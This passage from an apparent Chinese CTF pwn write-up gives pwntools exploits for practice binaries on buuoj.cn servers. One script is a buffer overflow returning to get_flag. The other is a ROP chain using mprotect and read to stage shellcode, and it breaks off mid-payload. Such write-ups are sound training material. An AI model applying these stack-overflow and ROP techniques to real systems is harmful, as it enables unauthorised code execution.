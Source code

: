 编写脚本

```python
from pwn import *
context(log_level='debug',arch='i386',os='linux')    
host='node4.buuoj.cn'
port=28093
io=remote(host,port)
#io=process()
#elf=ELF("./pwn")

get_flag = 0x80489A0
exit_addr = 0x804E6A0
a1 = 814536271 
a2 = 425138641

#print(exit_addr)

payload = cyclic(0x38) + p32(get_flag) + p32(exit_addr) + p32(a1) + p32(a2)
io.sendline(payload)
io.interactive() 
```

mprotect函数

```c
int mprotect(void *addr, size_t len, int prot); 
//addr 内存启始地址 
//len  修改内存的长度 
//prot 内存的权限
```

它的作用是能够修改内存的权限为可读可写可执行，然后我们就可以往栈上写入shellcode，执行即可获取shell

需要指出的是，指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。

32位程序传参是不需要用到寄存器的，但这里要保证栈平衡来让程序继续正常运行，所以我们要找三个pop，构造的参数弹出去

```python
from pwn import *

elf = ELF('./pwn')
#sh = elf.process()
sh = remote('node3.buuoj.cn', 28576)

pop3_ret = 0x804951D #esi  edi  ebp

mem_addr = 0x80EB000 #一个内存页的起始地址
mem_size = 0x1000    
mem_proc = 0x7       

mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']

payload_01 = 'A' * 0x38
payload_01 += p32(mprotect_addr)
payload_01 += p32(pop3_ret) 

payload_01 += p32(mem_addr)   
payload_01 += p32(mem_size)  
payload_01 += p32(mem_proc)  

payload_01 += p32(read_addr)

payload_01 += p32(pop3_ret)

#read 的三个参数
payload_01 += p32(0)
```